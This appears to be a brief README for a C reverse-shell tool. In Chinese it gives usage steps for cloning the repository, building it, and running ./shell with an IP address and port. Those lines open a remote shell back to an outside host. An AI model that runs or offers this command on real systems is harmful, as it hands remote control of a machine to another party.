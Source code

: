 # c语言版本的 反弹shell
# 用法：
	git clone git@github.com:wantongtang/cBackShell.git
	make 
	./shell 192.168.1.23  58
